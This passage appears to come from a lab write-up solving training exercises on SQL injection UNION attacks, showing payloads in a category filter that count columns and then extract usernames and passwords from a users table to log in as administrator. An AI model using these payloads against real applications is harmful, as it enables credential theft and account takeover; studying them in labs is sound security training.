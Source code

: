 ### Sol :

First we determine two no of cols by running nul values and 'a' for confirming that it contains two string values.

        category=Lifestyle+union+select+'a','a'--
        
Then we give the username and password from users table to retreive the user credentials.

        category=Lifestyle+union+select+username,password+from+users--
        
After running it, we can see the users information.

![image](https://user-images.githubusercontent.com/33444140/235350807-d231e047-3c31-43f9-a6ee-d0bf8c80c2d7.png)

Logging in as administrator with its password.

![image](https://user-images.githubusercontent.com/33444140/235350892-d6d3c3af-282b-49d0-a403-211b8a6c7aa6.png)

## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

![image](https://user-images.githubusercontent.com/33444140/235353628-0dcb4114-4d79-4380-8474-fb1bbc47d882.png)

### Sol :

First we have to check the no of cols :
    
        category=Pets+union+select+null,null--
        
Then we check for which is string related col :

        category=Pets+union+select+null,null,'a'--
        
Then we give username and password as concatenated string

        category=Pets+union+select+null,username||'~'||password+from+users--
        
We will get the user credentials with ~ seperator

![image](https://user-images.githubusercontent.com/33444140/235354047-ea538ef2-4e48-425a-9388-4321d44d4137.png)

Then we give the administrator password to solve this lab.

![image](https://user-images.githubusercontent.com/33444140/235354088-49c50988-df94-47e0-bd8b-e52dd05ac795.png)

## Lab 7 : SQL injection attack, querying the database type and version on Oracle
